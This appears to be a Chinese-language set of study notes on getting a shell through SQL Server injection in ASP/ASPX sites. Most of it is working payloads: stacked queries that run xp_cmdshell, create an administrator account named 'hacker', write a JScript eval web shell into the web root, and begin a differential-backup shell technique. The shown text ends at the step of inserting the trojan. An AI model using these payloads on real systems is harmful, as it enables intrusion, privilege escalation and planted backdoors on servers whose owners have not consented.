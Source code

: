 exec master..xp\_cmdshell "whoami"

asp?id=3;exec master.dbo.xp\_cmdshell 'net user hacker 123456 /add'

XP\_CMDSHELL把用户hacker加到ADMIN组：

asp?id=3;exec master.dbo.xp\_cmdshell 'net localgroup administrators hacker /add'

学习的文档：[https://www.lagou.com/lgeduarticle/38721.html](https://www.lagou.com/lgeduarticle/38721.html)

[https://www.cnblogs.com/vigarbuaa/p/3371500.html](https://www.cnblogs.com/vigarbuaa/p/3371500.html)

[https://www.cnblogs.com/cnjava/archive/2012/06/13/2547524.html](https://www.cnblogs.com/cnjava/archive/2012/06/13/2547524.html)

[https://blog.csdn.net/weixin\_34319999/article/details/92479895](https://blog.csdn.net/weixin_34319999/article/details/92479895)

## 拿shell方法

前提：

1具备sa或者dbo权限

2web目录的绝对路径 （可以利用xp\_cmdshell的方式寻找绝对路径，插个眼）

### (1)xp\_cmdshell拿shell

1.aspx?id=1;exec master..xp\_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item\["pass"\],"unsafe");%^> > c:\\WWW\\aufeng.aspx' ;

### (2)差异备份拿shell

大概思路：

假设：[http://xxxxx/show.aspx?code=1](http://xxxxx/show.aspx?code=1)

中的code参数存在注入点 并且获得数据库名字为abc 爆出了物理路径为e:\\xampp\\htdocs\\dvwa\\

(1) 修改数据库设置为恢复模式

[http://xxxxx/show.asp?code=1](http://xxxxx/show.asp?code=1)';alter database abc set RECOVERY FULL –

完全恢复模式是默认的恢复模式。在完全恢复模式下，需要手工的对事务日志进行管理，优点是可以恢复到数据库失败或者指定的时间点上。

(2) 备份当前数据库日志到文件

[http://xxxxx/show.aspx?code=1](http://xxxxx/show.aspx?code=1)';backup log abc to disk=‘e:\\xampp\\htdocs\\dvwa’ with init –

备份数据库日志到服务器上，其中路径是网页的物理路径。

(3) 建立一张表和一个字段

[http://xxxxx/show.aspx?code=1](http://xxxxx/show.aspx?code=1)';create table tt(a text) –

(4) 往表中插入一句话马子
